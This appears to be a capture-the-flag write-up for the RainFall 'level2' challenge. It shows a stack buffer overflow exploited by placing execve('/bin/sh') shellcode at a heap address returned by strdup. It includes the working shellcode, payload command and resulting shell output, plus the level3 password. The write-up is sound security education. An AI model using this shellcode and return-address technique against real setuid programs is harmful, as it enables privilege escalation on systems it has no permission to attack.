 level2
======

*	We spawn with a [level2](src/level2) executable
	```console
	level2@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
	level2@RainFall:~$ ./level2 
	█
	```
*	Let's take a look at the code in gdb
	```gdb
	(gdb) info functions
	All defined functions:
	...
	0x080484d4  p
	0x0804853f  main
	...
	```
*	We can see two functions : `p` and `main`
	-	`main` is just calling `p`
	-	`p` is a bit more complicated :
		-	declares an array of `76` char
		-	`gets` in this array
		-	protect the return addressand uses `printf` 
		-	uses `puts` and `strdup` on our array
*	Let's try overflowing the buffer
	```console
	(gdb) r
	Starting program: /home/user/level2/level2 
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7A
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7A

	Program received signal SIGSEGV, Segmentation fault.
	0x37634136 in ?? ()
	```
	we found out that the offset of `$eip` is equal to `80`
*	It is nice to have a weakness in the code and the offset but there is nothing to exploit inside of it. So we need to use a shellcode to execute `/bin/sh`.
*	Crafting the payload :
	-	buffer = 80 bytes
	-	shellcode (`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`) = 23 bytes
	-	return address = 4 bytes
*	But of course it is never that easy, so this time it seems that there is `cmp` to make sure we don't overwrite the return address within a certain range
	```assembly
	and    $0xb0000000,%eax
	cmp    $0xb0000000,%eax
	```
	Basically, it restrict anything that starts with `0xb` to make sure we don't use the stack
*	So we need to use the heap !
	```console
	level2@RainFall:~$ ltrace ./level2 
	...
	strdup("")                                                                                = 0x0804a008
	...
	```
	this allow us to retrieve the return address of `strdup` -> `\x08\xa0\x04\x08`
*	We tried this
	```console
	level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*59 + "\x08\xa0\x04\x08"' > /tmp/payload
	level2@RainFall:~$ cat /tmp/payload - | ./level2 
	whoami
	level3
	cat /home/user/level3/.pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```